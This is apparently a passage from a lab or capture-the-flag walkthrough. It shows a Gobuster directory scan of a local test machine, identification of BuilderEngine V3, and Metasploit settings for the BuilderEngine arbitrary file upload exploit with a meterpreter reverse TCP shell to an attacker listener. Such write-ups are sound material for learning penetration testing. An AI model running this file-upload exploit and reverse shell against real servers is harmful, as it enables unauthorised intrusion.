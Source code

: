 
Hit a couple of walls with the first enumeration attempts. The robots.txt has a Hackers entry that doesn't lead anywhere. Nothing usable for the bind server and the OpenSSH. enum4linux came back empty because I had no username/password pair to specify. And the Tomcat server did not use default credentials. So I fired up Gobuster and it found some additional things to check:

``` 
gobuster -w /usr/share/wordlists/dirb/big.txt -u http://192.168.145.128/

=====================================================
2018/11/16 14:56:38 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/blocks (Status: 301)
/files (Status: 301)
/modules (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
/system (Status: 301)
/themes (Status: 301)
```

I visited each link, there are lots of directory listings for what appears to be a blog and ecommerce application. Some directories blocked me from entering, but I did find an indication of the target application inside http://192.168.145.128/themes/default_theme_2016/description.txt 

``` 
Default Theme 2016 for BuilderEngine V3.
```

Searching for BuilderEngine exploits gave me 2 results, 1 exploitDB exploit and 1 Metasploit module. Let's see both in action, starting with Metasploit!

## Low privilege shell - Metasploit

``` 
search builderengine

Matching Modules
================

   Name                                          Disclosure Date  Rank       Check  Description
   ----                                          ---------------  ----       -----  -----------
   exploit/multi/http/builderengine_upload_exec  2016-09-18       excellent  Yes    BuilderEngine Arbitrary File Upload Vulnerability and execution

Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.145.128  yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to BuilderEngine
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.145.133  yes       The listen address (an interface may be specified)
   LPORT  8000             yes       The listen port
```
